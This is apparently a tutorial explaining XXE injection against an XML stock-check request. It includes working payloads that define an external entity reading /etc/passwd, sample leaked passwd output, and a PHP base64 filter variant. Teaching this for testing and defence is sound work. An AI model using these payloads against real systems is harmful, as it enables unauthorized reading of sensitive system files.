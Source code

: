 To perform an XXE Injection Attack to retrieve sensitive system files, an attacker needs to modify the submitted XML in two ways:
1. Introduce or edit a `DOCTYPE` element that defines an external entity containing the path of the file.
2. Edit a value in the XML that is returned in the application's HTTP response, to make sure of the defined external entity.

For example, an application checks the stock level of a product by submitting the following XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
An attacker can exploit the XXE vulnerability by modifying the XML to include the XXE payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE haxxor [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
The XXE payload defines the `&xxe;` in the `DOCTYPE` and uses the entity within the `productId` tag to return the value. This causes the application's response to include the contents of the file:
```txt
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

Additionally, if the target is a PHP application, we can use wrapper filters to encode the content using Base64. For example:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE haxxor [ <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
## Note
With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.